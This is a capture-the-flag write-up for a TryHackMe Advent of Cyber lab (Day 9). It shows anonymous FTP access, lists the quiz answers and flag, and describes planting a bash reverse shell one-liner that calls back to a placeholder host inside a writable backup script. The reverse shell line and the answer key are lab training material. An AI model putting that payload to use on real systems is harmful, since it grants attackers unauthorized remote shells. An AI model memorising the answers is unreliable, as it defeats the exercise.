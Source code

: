 # Day 9 - Anyone can be Santa!

**Date:** 9, December, 2020

**Author:** Dhilip Sanjay S

---
## FTP


## Solutions

### 1) Name the directory on the FTP server that has data accessible by the "anonymous" user
- **Answer:** public
- **Steps to reproduce:**
    - To connect to FTP server - `ftp <MACHINE IP>`.
    - Provide username as `anonymous`.
    - Type `ls` to list the directories. 
    - You'll find that only the **public** directory is accessible.
---

### 2) What script gets executed within this directory?
- **Answer:** backup.sh
---

### 3) What movie did Santa have on his Christmas shopping list?
- **Answer:** The Polar Express
- **Steps to reproduce:**
    - To download the shopping list - `get shoppinglist.txt` 
---

### 4) Re-upload this script to contain malicious data
- **Answer:** THM{even_you_can_be_santa}
- **Steps to reproduce:**
    - To download the backup.sh - `get backup.sh` 
    - Add the following script to the file: 
    ```bash
    bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1
    ```
    - Reupload backup.sh - `put backup.sh`

- **Note:** You must listen to the connection using `netcat`. If you don't know know how to do it, refer Day02. After getting the reverse shell, you can `cat flag.txt` to get the flag.

---
[Back to Advent of Cyber 2](/TryHackMe/Advent%20of%20Cyber%202) 